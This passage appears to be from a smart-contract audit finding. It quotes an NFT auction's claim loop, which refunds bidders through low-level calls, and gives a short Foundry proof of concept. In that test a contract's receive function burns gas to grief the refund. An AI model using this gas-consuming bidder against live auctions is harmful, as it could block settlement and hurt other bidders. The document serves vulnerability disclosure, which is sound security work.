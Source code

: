 ```solidity

    for (uint256 i=0; i < auctionInfoData[_tokenid].length; i++) {

        if (
            auctionInfoData[_tokenid][i].bidder == highestBidder
        &&  auctionInfoData[_tokenid][i].bid == highestBid
        &&  auctionInfoData[_tokenid][i].status == true
        ) {
            IERC721(gencore).safeTransferFrom(ownerOfToken, highestBidder, _tokenid);

            (bool success, ) = payable(owner()).call{value: highestBid}("");

            emit ClaimAuction(owner(), _tokenid, success, highestBid);
        } else if (auctionInfoData[_tokenid][i].status == true) {
            (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}(""); <---
            emit Refund(auctionInfoData[_tokenid][i].bidder, _tokenid, success, highestBid);
        } else {}
    }
}
```
Here is a very simplified POC in Foundry. To run it, install Foundry in the project, add this file, and run `forge test --match-test testSendETH -vvv`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import "../lib/forge-std/src/StdError.sol";
import "../lib/forge-std/src/Test.sol";

//contract that consumes all the gas
contract GasConsumer {

//function that adds our bid for participation in the auction
function participateToAuction() public payable {}
//receive function that consumes all the gas
receive() external payable {
    for(uint256 i = 0; i < 300000; i++) {}
}

}

//contrac that will simulate sending the payment to one of the borrowers
contract SendETH{
constructor() {}
//sendETH function simulating payment to just 1 bidder
function sendETH(address recipient, uint amount) public returns(bool success){
    (success, ) = payable(recipient).call{value: amount}("");
}
}

//test contract
contract TestSendETH is Test {
GasConsumer gasConsumer = new GasConsumer();
SendETH sendETH = new SendETH();

function testSendETH() public {
    //deal so we can have something to send
    vm.deal(address(sendETH), 1 ether);

    sendETH.sendETH(address(gasConsumer), 1);
}
}
```